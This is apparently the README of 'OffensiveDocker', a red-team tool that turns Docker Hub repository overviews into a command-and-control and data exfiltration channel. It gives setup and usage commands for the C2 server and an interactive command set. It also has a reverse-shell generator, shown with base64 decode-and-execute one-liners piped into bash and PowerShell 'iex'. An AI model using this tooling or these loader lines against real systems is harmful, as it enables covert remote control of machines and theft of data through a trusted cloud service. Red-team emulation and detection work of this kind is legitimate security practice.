

# OffensiveDocker by @0xbugatti


OffensiveDocker is a tool designed to turn Docker Hub repository to secure exfiltration and C&amp;C by JSON-based requests . This script allows you to save, show , and read command execution results in addition to execution , effectively enabling my APT Emulation Skills, cloud-based C2 (Command &amp; Control) system.


As Redteamer :
Exfiltrate Data Over hub.docker.com 

As Blue Teamer :
From Tooday Dont Trust hub.docker.com 


# Features
- Execute new commands and append them to the repository.

- Retrieve and display C2 execution history stored in Docker Hub repository overviews.
        
- Encode Data before sent and Decode on display results from previous executions.
    
- reset db to avoid exceeding limits errors
  
- Save execution history into an SQLite database before reset .
    
- Switch between different agent repositories.
    
    
- Automatic repository creation if it doesn't exist.

# Note 
This Is Just POC of the Concept alot of Evasion Techniques could be Implemented but 
I will not disclose the special edition and awaiting that from contributers

# Installation 
```bash
git clone https://github.com/0xBugatti/OffensiveDocker.git
cd OffensiveDocker/
pip install -r requirements.txt
python C2-server.py --user <username> --new --repo <repo> --token <docker_hub_token>

```
# Usage


## Create repos 

```
python C2-Server.py --user <username> --new --repo <repo> --token <docker_hub_token>
```

- `--user` : Docker Hub username
    
- `--repo` : Repository name
    
- `--token` : Docker Hub API token
    
- `--save` : Save all C2 connection data to SQLite and exit
    
- `--read` : Read all C2 connection data and exit
    
- `--new` : Create the repository if it does not exist

## Interactive Mode

Once the script is running, you can use the following commands:

#### Available Commands:

|Command|Description|
|---|---|
|`exec "text"`|Add a new command to be executed|
|`show <ID>`|Retrieve and decode the 'result' field for the given ID|
|`setagent-repo <name>`|Change the current agent repo|
|`read`|Display all C2 connection data in a table|
|`save`|Save all connection data to an SQLite database|
|`help`|Display this help menu|
|`reset`|Reset the repository overview|
|`stop`|Exit the program|

##### Example
```
testit> exec "whoami"
testit> show 1
testit> save
testit> read
testit> stop
```


## Generating a reverse shells

### bash

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode bash`
```

```bash
echo "YmFzZTY0LWVuY29kZWQtc2NyaXB0" | base64 -d | bash
```

### powershell

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode powershell`
```
**Example :**


```powershell
([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YmFzZTY0LWVuY29kZWQtc2NyaXB0"))) | iex
```

## POCs





c2thedocker.png
## License

This project is licensed under the MIT License.

## Author

Developed by **0xbugatti**

# 🚀 Follow Me  

Stay connected and follow me on my social platforms!  

[](https://www.youtube.com/@0xbugatti)  
[](https://x.com/0xbugatti)  
[](https://medium.com/@0xbugatti)  
[](https://www.facebook.com/0xbugatti)  


